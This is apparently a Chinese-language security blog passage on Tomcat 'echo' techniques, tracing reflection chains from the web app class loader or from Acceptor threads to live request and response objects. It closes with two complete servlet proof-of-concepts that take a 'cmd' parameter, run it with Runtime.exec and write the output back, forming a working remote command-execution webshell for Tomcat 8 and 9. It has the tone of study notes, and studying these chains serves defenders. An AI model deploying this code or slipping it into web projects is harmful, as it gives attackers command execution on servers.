

这里会将传进来的connector对象放到StandardService的connectors数组中

那么现在的获取链变成了

```java
StandardService --> connectors --> connector --> protocolHandler --> handler --> AbstractProtocol$ConnectoinHandler --> global --> RequestInfo --> req --> response
```

connectors同样为非静态属性，那么我们就需要获取在Tomcat中已经存在的StandardService对象，而不是新创建的对象。

## 如何获取StandardService对象

看到这我就一个劲的佩服，不得不说前人的伟大和聪慧

还记得我们一开始介绍tomcat的时候吗？当时给了一个tomcat的架构图，我这里直接放drun1baby师傅的图



发现Service已经是最外层的对象了，再往外就涉及到了Tomcat类加载机制。Tomcat的类加载机制并不是传统的双亲委派机制，因为传统的双亲委派机制并不适用于多个Web App的情况。

**Tomcat加载机制简单讲，WebAppClassLoader负责加载本身的目录下的class文件，加载不到时再交给CommonClassLoader加载，这和双亲委派刚好相反。**

在SpringBoot项目中调试看下`Thread.currentThread().getContextClassLoader()` 中的内容



WebappClassLoader里面确实包含了很多很多关于tomcat相关的变量，其中service变量就是要找的StandardService对象。那么至此整个调用链就有了入口点

## 获取过程

```java
WebappClassLoader --> resources --> context --> context --> StandardService --> connectors --> connector --> protocolHandler --> handler --> AbstractProtocol$ConnectoinHandler --> global --> RequestInfo --> req --> response
```

因为这个调用链中一些变量有 `get` 方法因此可以通过 getter 函数很方便的执行调用链，对于那些私有保护属性的变量我们只能采用反射的方式动态的获取。

### 获取Tomcat ClassLoader context

由于Tomcat处理请求的线程中，存在ContextLoader对象，而这个对象又保存了StandardContext对象，所以很方便就获取了

```java
org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =(org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();

StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();
```

但是这种做法的**限制在于只可用于Tomcat 8 9的低版本**，比如我上面的tomcat9.0.108就不行




换成drun1baby师傅文章里用的8.5.21就刚好可以



### 获取standardContext的context

直接反射操作

```java
//获取standardContext的context
Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
context.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) context.get(standardContext);
```

### 获取ApplicationContext的StandardService

```java
//获取ApplicationContext的StandardService
Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
service.setAccessible(true);
StandardService standardService = (StandardService)service.get(applicationContext);
```

### 获取StandardService的connectors

```java
//获取StandardService的connectors数组
Field connectorsFiled = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("connectors");
connectorsFiled.setAccessible(true);
Connector[] connectors = (Connector[])connectorsFiled.get(standardService);
```

### 获取AbstractProtocol的handler

里面有一个getProtocolHandler方法可以直接用

```java
//获取AbstractProtocol的handler
ProtocolHandler protocolHandler = connectors[0].getProtocolHandler();
Field handlerField = AbstractProtocol.class.getDeclaredField("handler");
handlerField.setAccessible(true);
AbstractEndpoint.Handler handler = (AbstractEndpoint.Handler) handlerField.get(protocolHandler);
```

### 获取内部类ConnectionHandler的global

```java
//获取内部类ConnectionHandler的global
Field globalField = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
globalField.setAccessible(true);
RequestGroupInfo global = (RequestGroupInfo)globalField.get(handler);
```

### 获取RequestGroupInfo中的processors

```java
//获取RequestGroupInfo中的processors
Field processorsField = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
processorsField.setAccessible(true);
ArrayList<RequestInfo> processors = (ArrayList<RequestInfo>)processorsField.get(global);
```

### 遍历获取Response

因为这里是数组，所以我们需要遍历并使用反射获取每个requestInfo中的req变量，从而获取对应的response。

```java
Field reqField = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
reqField.setAccessible(true);
for (RequestInfo requestInfo : RequestInfolist) {//遍历
    org.apache.coyote.Request coyoteReq = (org.apache.coyote.Request )reqField.get(requestInfo);//获取request
    org.apache.catalina.connector.Request connectorRequest = ( org.apache.catalina.connector.Request)coyoteReq.getNote(1);//获取catalina.connector.Request类型的Request
    org.apache.catalina.connector.Response connectorResponse = connectorRequest.getResponse();
    ...
}
```

获取到之后就是一些命令行参数和输出的常规操作了

## 最终POC

```java
package com.example.Servlet_Memshell;

import org.apache.catalina.connector.Response;
import org.apache.catalina.connector.ResponseFacade;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.core.StandardService;
import org.apache.coyote.RequestGroupInfo;
import org.apache.coyote.RequestInfo;
import org.apache.tomcat.util.net.AbstractEndpoint;


import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(urlPatterns = "/servletAttack")
public class GlobalContextAttack extends HttpServlet {
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {

        try {
            // 获取Tomcat ClassLoader context
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =(org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();

            // 获取standardContext的context
            Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
            context.setAccessible(true);//将变量设置为可访问
            org.apache.catalina.core.ApplicationContext ApplicationContext = (org.apache.catalina.core.ApplicationContext) context.get(standardContext);

            // 获取ApplicationContext的service
            Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
            service.setAccessible(true);//将变量设置为可访问
            StandardService standardService = (StandardService) service.get(ApplicationContext);

            // 获取StandardService的connectors
            Field connectorsField = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
            connectorsField.setAccessible(true);//将变量设置为可访问
            org.apache.catalina.connector.Connector[] connectors = (org.apache.catalina.connector.Connector[]) connectorsField.get(standardService);

            // 获取AbstractProtocol的handler
            org.apache.coyote.ProtocolHandler protocolHandler = connectors[0].getProtocolHandler();
            Field handlerField = org.apache.coyote.AbstractProtocol.class.getDeclaredField("handler");
            handlerField.setAccessible(true);
            org.apache.tomcat.util.net.AbstractEndpoint.Handler handler = (AbstractEndpoint.Handler) handlerField.get(protocolHandler);

            // 获取内部类ConnectionHandler的global
            Field globalField = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
            globalField.setAccessible(true);
            RequestGroupInfo global = (RequestGroupInfo) globalField.get(handler);

            // 获取RequestGroupInfo的processors
            Field processors = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
            processors.setAccessible(true);
            java.util.List<RequestInfo> RequestInfolist = (java.util.List<RequestInfo>) processors.get(global);

            // 获取Response，并做输出处理
            Field reqField = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
            reqField.setAccessible(true);
            for (RequestInfo requestInfo : RequestInfolist) {//遍历
                org.apache.coyote.Request coyoteReq = (org.apache.coyote.Request )reqField.get(requestInfo);//获取request
                org.apache.catalina.connector.Request connectorRequest = ( org.apache.catalina.connector.Request)coyoteReq.getNote(1);//获取catalina.connector.Request类型的Request
                org.apache.catalina.connector.Response connectorResponse = connectorRequest.getResponse();

                // 从connectorRequest 中获取参数并执行
                String cmd = connectorRequest.getParameter("cmd");
                String res = new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();

                java.io.Writer w = response.getWriter();//获取Writer
                Field responseField = ResponseFacade.class.getDeclaredField("response");
                responseField.setAccessible(true);
                Field usingWriter = Response.class.getDeclaredField("usingWriter");
                usingWriter.setAccessible(true);
                usingWriter.set(connectorResponse, Boolean.FALSE);//初始化
                w.write(res);
                w.flush();//刷新
            }

        } catch (Exception e) {
            e.printStackTrace();
        }

    }

    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        this.doPost(request, response);
    }
}

```



## Tomcat高版本

前面在获取context的时候也说到这个其实是有版本限制的，所以我们还需要另外找办法去获取

其实从 `Thread.currentThread().getContextClassLoader()` 中获取 StandardContext到StandardService 再到获取 Connector，本质上是为了拿到最后的`AbstractProtocol$ConnectoinHandler中的processors`，那我们是否可以换个链子去拿到这个内部类实例呢？

发现在 `org.apache.tomcat.util.net.AbstractEndpoint` 的 handler 是 AbstractEndpointHandler 定义的，同时 Handler 的实现类是 `AbstractProtocol$ConnectoinHandler`。

但是AbstractEndpoint类是一个抽象类，没法正常实例化，所以需要找他的继承类子类



看到NioEndpoint类。NioEndpoint 是主要负责接受和处理 socket 的且其中实现了socket请求监听线程**Acceptor**、**socket NIO poller线程**、以及请求处理线程池。

所以我们可以从`Thread.currentThread().getThreadGroup()` 获取的线程中遍历找出我们需要的NioEndpoint 对象。

### 通过**Acceptor**获取NioEndpoint

遍历线程，获取线程中的target属性，如果该target是Acceptor类的话则其endpoint属性就是NioEndpoint 对象。

```java
Thread.currentThread().getThreadGroup() --> theads[] --> thread --> target --> NioEndpoint$Poller --> NioEndpoint --> AbstractProtocol$ConnectoinHandler --> global --> RequestInfo --> req --> response
```

#### 实现poc

```java
try{
    //方法一：通过**Acceptor**获取NioEndpoint
    //首先要获取threads数组
    ThreadGroup threadGroup = Thread.currentThread().getThreadGroup();
    Field threadsField =  ThreadGroup.class.getDeclaredField("threads");
    threadsField.setAccessible(true);
    Thread[] threads = (Thread[])threadsField.get(threadGroup);

    //然后遍历每个thread并获取里面的target
    for(Thread thread : threads){
        Field targetField = Thread.class.getDeclaredField("target");
        targetField.setAccessible(true);
        Object target = targetField.get(thread);
        if (target != null && target.getClass() == org.apache.tomcat.util.net.Acceptor.class){
            Field endpointField = Class.forName("org.apache.tomcat.util.net.Acceptor").getDeclaredField("endpoint");
            endpointField.setAccessible(true);
            Object endpoint = endpointField.get(target);
            Field handlerField = Class.forName("org.apache.tomcat.util.net.AbstractEndpoint").getDeclaredField("handler");
            handlerField.setAccessible(true);
            Object handler = handlerField.get(endpoint);
        }
    }
}
```

此时的handler就是 `AbstractProtocol$ConnectoinHandler` 对象，后面的就是跟之前一样了

```java
package com.example.Servlet_Memshell;

import org.apache.catalina.connector.Response;
import org.apache.catalina.connector.ResponseFacade;
import org.apache.coyote.RequestGroupInfo;
import org.apache.coyote.RequestInfo;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(urlPatterns = "/servletAttack2")
public class GlobalContextAttack2 extends HttpServlet {
    /*
    * 通过获取线程中的NioEndpoint对象进而获取到AbstractProtocol$ConnectoinHandler内部实现类
    * Thread.currentThread().getThreadGroup()->
    *    theads[]->
    *     target->
    *       NioEndpoint$Poller->
    *       NioEndpoint->
    *       AbstractProtocol$ConnectoinHandler --> global --> RequestInfo --> req --> response
    * */
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try{
            //方法一：通过**Acceptor**获取NioEndpoint
            //首先要获取threads数组
            ThreadGroup threadGroup = Thread.currentThread().getThreadGroup();
            Field threadsField =  ThreadGroup.class.getDeclaredField("threads");
            threadsField.setAccessible(true);
            Thread[] threads = (Thread[])threadsField.get(threadGroup);

            //然后遍历每个thread并获取里面的target
            for(Thread thread : threads){
                Field targetField = Thread.class.getDeclaredField("target");
                targetField.setAccessible(true);
                Object target = targetField.get(thread);
                //获取target中的endpoint属性，即AbstractEndpoint对象
                if (target != null && target.getClass() == org.apache.tomcat.util.net.Acceptor.class){
                    Field endpointField = Class.forName("org.apache.tomcat.util.net.Acceptor").getDeclaredField("endpoint");
                    endpointField.setAccessible(true);
                    Object endpoint = endpointField.get(target);
                    
                    //获取AbstractEndpoint对象中的handler属性，即AbstractProtocol$ConnectionHandler
                    Field handlerField = Class.forName("org.apache.tomcat.util.net.AbstractEndpoint").getDeclaredField("handler");
                    handlerField.setAccessible(true);
                    Object handler = handlerField.get(endpoint);

                    // 获取内部类ConnectionHandler的global
                    Field globalField = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
                    globalField.setAccessible(true);
                    RequestGroupInfo global = (RequestGroupInfo) globalField.get(handler);

                    // 获取RequestGroupInfo的processors
                    Field processors = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
                    processors.setAccessible(true);
                    java.util.List<RequestInfo> RequestInfolist = (java.util.List<RequestInfo>) processors.get(global);

                    // 获取Response，并做输出处理
                    Field reqField = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
                    reqField.setAccessible(true);
                    for (RequestInfo requestInfo : RequestInfolist) {//遍历
                        org.apache.coyote.Request coyoteReq = (org.apache.coyote.Request )reqField.get(requestInfo);//获取request
                        org.apache.catalina.connector.Request connectorRequest = ( org.apache.catalina.connector.Request)coyoteReq.getNote(1);//获取catalina.connector.Request类型的Request
                        org.apache.catalina.connector.Response connectorResponse = connectorRequest.getResponse();

                        // 从connectorRequest 中获取参数并执行
                        String cmd = connectorRequest.getParameter("cmd");
                        String res = new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();

                        java.io.Writer w = response.getWriter();//获取Writer
                        Field responseField = ResponseFacade.class.getDeclaredField("response");
                        responseField.setAccessible(true);
                        Field usingWriter = Response.class.getDeclaredField("usingWriter");
                        usingWriter.setAccessible(true);
                        usingWriter.set(connectorResponse, Boolean.FALSE);//初始化
                        w.write(res);
                        w.flush();//刷新
                    }
                }
            }
            
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        this.doPost(request, response);
    }
}
```

### 通过**poller**获取NioEndpoint

遍历线程，获取线程中的target属性，如果target属性是 NioEndpointPoller 类的话，通过获取其父类 NioEndpoint，进而获取到 AbstractProtocolConnectoinHandler。

```java
Thread.currentThread().getThreadGroup() --> theads[] --> thread --> target --> NioEndpoint$Poller --> NioEndpoint --> AbstractProtocol$ConnectoinHandler --> global --> RequestInfo --> req --> response
```

这个POC其实跟上面那个大差不差，后面用到再回来补吧

## 小结

本人水平有限，文章大多内容都从师傅们的文章中来，如果师傅发现文章中的疏漏，欢迎指出来可以一起探讨

Refernce：
https://drun1baby.top/2022/11/30/Java-%E5%9B%9E%E6%98%BE%E6%8A%80%E6%9C%AF/

https://xz.aliyun.com/news/6984

https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3&poc_token=HLiXummjRi3RoTaGWJdznDWCQ_SgOZ7tJ_sSMpOx

https://xz.aliyun.com/news/6944#toc-0
